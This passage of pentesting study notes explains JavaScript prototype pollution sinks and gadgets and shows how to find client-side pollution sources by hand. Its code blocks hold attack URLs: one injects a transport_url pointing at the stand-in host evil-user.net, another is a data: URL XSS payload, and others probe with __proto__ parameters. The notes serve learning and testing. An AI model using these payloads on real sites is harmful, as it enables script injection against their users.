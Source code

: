 A prototype pollution sink is essentially just a JavaScript function or DOM element that you're able to access via prototype pollution, which enables you to execute arbitrary JavaScript or system commands.

## Prototype pollution gadgets

A gadget provides a means of turning the prototype pollution vulnerability into an actual exploit. This is any property that is:

* Used by the application in an unsafe way, such as passing it to a sink without proper filtering or sanitization.
* Attacker-controllable via prototype pollution. In other words, the object must be able to inherit a malicious version of the property added to the prototype by an attacker.

A property cannot be a gadget if it is defined directly on the object itself. Robust websites may also explicitly set the prototype of the object to _null_, which ensures that it doesn't inherit any properties at all.

{% code overflow="wrap" fullWidth="true" %}
```sh
############ Example of a prototype pollution gadget
let transport_url = config.transport_url || defaults.transport_url;
# Now imagine the library code uses this transport_url to add a script reference to the page:
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
# If devs did not set transport_url property on their config object, this is a potential gadget.
# Attacker could be able to pollute global Object.prototype with their own transport_url property and would be inherited
# for the object and, therefore, set as the src for this script to a domain of the attacker's choosing. 

# If prototype can be polluted via a query parameter, attacker would induce victim to visit a crafted URL:
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
#  By providing a data: URL, an attacker could also directly embed an XSS payload within the query string as follows: 
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
#  Note that the trailing // in this example is simply to comment out the hardcoded /example.js suffix. 
```
{% endcode %}

## Client-side Prototype pollution

{% code overflow="wrap" fullWidth="true" %}
```sh
############### Finding client-side prototype pollution sources manually
Trial and error. Try different ways of adding an arbitrary property to Object.prototype until you find a source that work
# 1. Try to inject an arbitrary property via the query string, URL fragment, and any JSON input. For example:
vulnerable-website.com/?__proto__[foo]=bar
# 2. In your browser console, inspect Object.prototype to see if you have successfully polluted it
Object.prototype.foo
// "bar" indicates that you have successfully polluted the prototype
// undefined indicates that the attack was not successful
# 3. If property was not added, try different techniques, such as dot notation or bracket (first example) notation:
vulnerable-website.com/?__proto__.foo=bar
# 4. Repeat this process for each potential source.
# TIP: If neither of these techniques is successful, you may still be able to pollute the prototype via its constructor.

############## Finding client-side prototype pollution sources using DOM Invader
```